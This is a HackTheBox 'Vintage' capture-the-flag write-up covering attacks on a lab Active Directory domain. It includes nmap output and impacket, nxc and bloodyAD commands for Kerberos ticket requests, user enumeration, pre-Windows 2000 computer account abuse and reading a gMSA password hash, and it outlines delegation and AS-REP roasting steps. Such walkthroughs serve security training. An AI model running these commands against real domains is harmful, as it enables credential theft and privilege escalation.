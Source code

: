 +++
title = "HTB - Vintage"
date = "2025-04-26"
author = "Brainmoustache"
authorTwitter = "Brainmoustache" #do not include @
cover = ""
tags = ["resume", "hackthebox", "Vintage"]
keywords = ["active-directory", ""]
description = "Resume of Vintage from HackTheBox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Vintage
## Resume
- Starting by getting information about how to authenticate to the domain
- 

--- 

## Enumeration:
Nmap
```bash
Nmap scan report for 10.129.231.205
Host is up (0.025s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-14 01:37:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49689/tcp open  msrpc         Microsoft Windows RPC
50623/tcp open  msrpc         Microsoft Windows RPC
50639/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-14T01:38:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.80 seconds
```

## User exploit
This box start in an assumed breach scenario. Credentials provided are `P.Rosa:Rosaisbest123`.

One of the first thing we could try is to get information about the target.

`nxc smb 10.129.231.205 -u P.Rosa -p Rosaisbest123`
```bash
SMB         10.129.231.205  445    10.129.231.205   [*]  x64 (name:10.129.231.205) (domain:10.129.231.205) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.129.231.205  445    10.129.231.205   [-] 10.129.231.205\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED 
```
We see that we get an error stating `STATUS_NOT_SUPPORTED` but also `NTLM:False`. 

It means we won't be able to use NTLM for this box but only Kerberos.

We can confirm by searching the SASL mechanism supported with `ldapsearch`.

> Simple Authentication and Security Layer (SASL) is a framework for authentication and data security in internet protocols.
> 
> Active Directory supports multiple SASL mechanisms for LDAP bind request.
> 
> GSS-SPNEGO normally supports both Kerberos and NTLM. In this case, only Kerberos is available.

`ldapsearch -x -H ldap://10.129.231.205 -b "" -s base "objectclass=*" supportedSASLMechanisms`
```bash
dn:
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
```
You can also use nmap to do the same `nmap -p 389 --script ldap-rootdse <host>`

We can confirm the usage of Kerberos by requesting a service ticket and using it with impacket to retrieve a list of domain users
```bash
impacket-getTGT 'VINTAGE.HTB'/'P.Rosa' -dc-ip 10.129.231.205

export KRB5CCNAME=/home/brainmoustache/hackthebox/vintage/P.Rosa.ccache

impacket-GetADUsers -all -k -no-pass -dc-ip 10.129.231.205 -all -dc-host dc01.vintage.htb vintage.htb/
```
With the last command, we get the following result
```bash
[*] Querying dc01.vintage.htb for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2024-06-08 07:34:54.403955  2025-04-23 08:12:01.460517 
Guest                                                 2024-11-13 09:16:53.833292  2024-06-07 03:52:40.153707 
krbtgt                                                2024-06-05 06:27:35.400481  <never>             
M.Rossi                                               2024-06-05 09:31:08.094234  <never>             
R.Verdi                                               2024-06-05 09:31:08.141099  <never>             
L.Bianchi                                             2024-06-05 09:31:08.172305  <never>             
G.Viola                                               2024-06-05 09:31:08.203614  <never>             
C.Neri                                                2024-06-05 17:08:13.504719  2024-06-08 08:51:15.053249 
P.Rosa                                                2024-11-06 07:27:16.968169  2025-04-23 08:24:50.913605 
svc_sql                                               2025-04-23 08:12:12.710462  <never>             
svc_ldap                                              2024-06-06 09:45:27.881830  <never>             
svc_ark                                               2024-06-06 09:45:27.913095  <never>             
C.Neri_adm                                            2024-06-07 06:54:14.001771  2024-06-07 10:06:11.244607 
L.Bianchi_adm                                         2025-04-23 07:57:59.929245  <never>             
```
Quickly analyzing this output reveals that we are going to target at some point users `C.Neri` and `C.Neri_adm`.

With the credential for `P.Rosa`, we can now run bloodhound with `nxc`

`nxc ldap 10.129.231.205 -d vintage.htb --use-kcache -k --dns-server 10.129.231.205 --bloodhound --collection All`

`-k --use-kcache` and mandatory when using kerberos ticket with `nxc`


![](/img/htb/vintage/blood-fs01.png)


When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated. ([ref](https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers)).

Once an authentication occurs for a pre-Windows 2000 computer, according to [TrustedSec's blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.
```bash
impacket-getTGT 'VINTAGE.HTB'/'FS01$' -dc-ip 10.129.231.205    
password: fs01
```
Read the `gMsa` account password 
```bash
python3 bloodyAD.py -k --dc-ip 10.129.231.205 --host dc01.vintage.htb -d vintage.htb get object 'GMSA01$' --attr msDS-ManagedPassword
```
Result of the command
```bash
distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
msDS-ManagedPassword.B64ENCODED: sfyyjet8CbAO5HFzqbtcCtYlqyYohprMvCgeztWhv4z/WOQOS1zcslIn9C3K/ucxzjDGRgHJS/1a54nxI0DxzlhZElfBxQL2z0KpRCrUNdKbdHXU/kzFj/i38JFgOWrx2FMIGKrEEIohO3b2fA/U/vlPxw65M+kY2krLxl5tfD1Un1kMCByA1AI4VuR5zxXSfpnzFIxKlo1PKBJUxttMqbRM21I5/aLQnaIDCnr3WaqfU6lLwdGWxoz6XSD3UiqLaW5iDPYYR47kJpnflJgS0TBUBkvd2JiLiOb5CXF1gBgUsbVLtBo/OWW/+lrvEpBtS7QIUFsOKMIaNsKFGtTkWQ==
```

![](/img/htb/vintage/blood-service.png)
balbal

This box is done only with Kerberos ticket

- Computer account in specific group has default password to computer account name
- Getting access to the computer account, we know we have ReadGMSA with Domain Computers group to GMSA01$
- Reading the hash password and using it to add ourself into the SERVICE MANAGERS group
- SVC_SQL is disable, re-enable it and configure the account to be able to asreproast it
- Fetching NPUsers, we can get a ticket and crack it
- Password spray the password to get access with C.Neri account





## Root exploit
- Reading DPAPI secret from the user
- Pivot into c.neri_adm
- S4U2SELF attack
1. Add the user svc_sql into the groupd that we just got `GenericWrite` access to `DelegatedAdmins`.
2. We use this account because C.Neri have `GenericAll` on it. We will be able to add an SPN.
3. Using previously added SPN, we will be able to fetch a TGS and impersonate the user `L.BIANCHI_ADM`


___
## Resources:

| Hyperlink                                                                                                  | Info                                      |
| ---------------------------------------------------------------------------------------------------------- | ----------------------------------------- |
| https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/989e0748-0953-455d-9d37-d08dfbf3998b | SASL Authentication                       |
| https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/e1cbe214-d73b-4c58-aad2-bee399ccdfb8 | 3.1.1.3.4.5.2 GSS-SPNEGO                  |
| https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers                              | Pre-Windows 2000 computers                |
| https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/                                 | Diving into pre created computer accounts |
|                                                                                                            |                                           |
|                                                                                                            |                                           |
|                                                                                                            |                                           |





